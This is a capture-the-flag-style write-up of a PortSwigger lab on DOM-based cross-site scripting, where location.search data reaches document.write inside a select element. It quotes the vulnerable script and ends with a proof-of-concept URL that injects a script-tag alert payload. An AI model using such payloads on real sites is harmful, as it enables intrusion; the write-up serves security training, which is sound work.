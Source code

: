 # DOM XSS in document.write sink using source location.search inside a select element

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element) contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The document.write function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element. 

## Reproduction and proof of concept

1. On the product pages, notice that the dangerous JavaScript extracts a storeId parameter from the `location.search` source. It then uses `document.write` to create a new option in the select element for the stock checker functionality.

```text
<form id="stockCheckForm" action="/product/stock" method="POST">
    <input required type="hidden" name="productId" value="4">
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }
        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
    <button type="submit" class="button">Check stock</button>
</form>
```
2. Add a `storeId` query parameter to the URL and enter a random alphanumeric string as its value. Request this modified URL.

```text
https://0a07003f04c9eae2c0c9af0b0027005f.web-security-academy.net/product?productId=4&storeId=abcdef
```

3. In the browser, the random string is now listed as one of the options in the drop-down list.
4. Right-click and inspect the drop-down list to confirm that the value of the storeId parameter has been placed inside a select element. 
5. Create a suitable XSS payload inside the `storeId` parameter:

```text
https://0a07003f04c9eae2c0c9af0b0027005f.web-security-academy.net/product?productId=4&storeId=<script>alert(0)</script>
```
